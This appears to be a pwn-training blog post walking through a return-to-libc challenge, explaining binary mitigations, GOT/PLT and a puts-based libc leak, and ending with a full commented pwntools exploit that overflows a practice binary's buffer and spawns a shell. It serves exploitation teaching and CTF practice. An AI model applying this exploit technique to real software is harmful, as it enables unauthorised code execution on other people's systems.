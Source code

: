 ```yaml
---
layout: post
author: tourpran
title: Return to libc
categories: pwn-training
tags: ["libc leak", "ret2libc"]
---
```


![](/assets/images/pwntraining3/pwntrain1.png)

### Introduction:

In this blog we will be trying to leak a libc address and try to get a shell by calling system. Here we will look into 2 challenges with similar attacks but slight variations.

### Challenge 1:

Here we are given a binary and the source for the binary.

[vuln binary](/assets/images/pwntraining3/ret2libc) and 
[vuln c code](/assets/images/pwntraining3/ret2libc.c)

### Solution:

#### Mitigations: 

Lets check out the mitigations for this program.
```bash
checksec --file ./ret2libc
```

![](/assets/images/pwntraining3/pwntrain2.png)

If you don't have checksec installed then 
```bash
sudo apt install checksec
```

RELRO:
* Partial RELRO - the got is writeable, nothing much to bother here.


CANARY:
* No canary, we can do a overflow peacefully :)

No eXecute:
* NX Enabled - this makes sure that the code on the stack is not excecuted.


PIE:
* PIE Disabled, we know the address of all the code in the binary.

#### Code walkthrough:

main function: 

![](/assets/images/pwntraining3/pwntrain3.png)

Its simple and easy, just overflow the buffer with garbage value and fill the return with... with... wait... with what ? Since there is no win function as such what exactly will we do ? Can we somehow get a shell by leaking something ? Lets look at the idea behind this challenge.

#### Global Offset Table:

This challenge requires you to know the basics of GOT and PLT. In short GOT is a set of address that points to the function in the glibc (shared library). To know more about [Global offset table go ahead to my old blog](https://tourpran.me/blogs/2020/09/13/got-plt.html). 

#### Exploit Idea:

Our aim right now, is to leak an address in the libc (shared library). The reason is because we are not given any helper funciton in our program to get a shell, so we use the function in the libc called system with arguments "/bin/sh" to get a shell.

&#8594; We can use the puts function since its already called by our program, so the GOT of this function will be resolved ( real address pointing to libc will be filled ).

&#8594; puts function takes one input which is the string to be printed. What if we can call puts with puts ?  :thinking:

#### Pseudo code:

**note**: arguments to functions are stored via registers, the first argument is stored in RDI.

```.
"A"*(offset) + p64(address of pop RDI) +  p64(GOT address of puts) + p64(PLT address of puts) + p64(address of main)
```

This code will fill the buffer with garbage and store the GOT address of puts inside the RDI register and then calls puts, this will leak the puts libc address. 

* Now we have the libc puts address.
* All functions and variables in the libc is relative to one another, libc as a whole might change its position but the elements (functions, variables) will be at the same relative distance from one another.
* we can calculate the address of string "/bin/sh" and the address of system function, then we can call the system with the argument to pop a shell.

**note:** You might face a error in the statement movabs. If you encounter this problem, you can rectify it by adding a return instruction before the call to a glibc function, Since adding a return address will make the RSP 16 byte aligned.

#### Exploit:

In real life situation you are not probably using the same libc as the software dev, So to find out the libc version go to [libc.blukat.me](https://libc.blukat.me/).

So always the last 3 digits (hex) of the leak will be same. Use this as an advantage to select your libc version.

![](/assets/images/pwntraining3/pwntrain4.png)

Below is the commented solution. 

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc'
elf = ELF("./ret2libc")

# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* 0x00000000004011c7
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvuntil("Are you in?") # recv the output sent by the program.
p.sendline(b"A"*0x60 + b"B"*8 + p64(0x0000000000401016) +  p64(0x000000000040122b) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym.main))
# filling the buffer and RBP + return instruction to tackle the alignment issues + pop RDI to fill it with address of the puts function. add main to return back to main function
p.recvline() # recv unwanted bytes.
leak_puts =hex( u64((p.recvline().rstrip()).ljust(8, b"\x00"))) # recv the puts function and strip the front and back, unpack it and store it as hex.

log.info("puts: "+str(leak_puts)) # make sure you get a address in the libc by logging it.

p.recvuntil("Are you in?") # recv output.
p.sendline(b"B"*0x60 + b"C"*8 + p64(0x000000000040122b) + p64(int(leak_puts, 16) + 0x13000a) + p64(int(leak_puts, 16)-0x32190))
# fill garbage in buffer and pop RDI to fill it with a pointer to "bin/sh" call system.

p.interactive()

```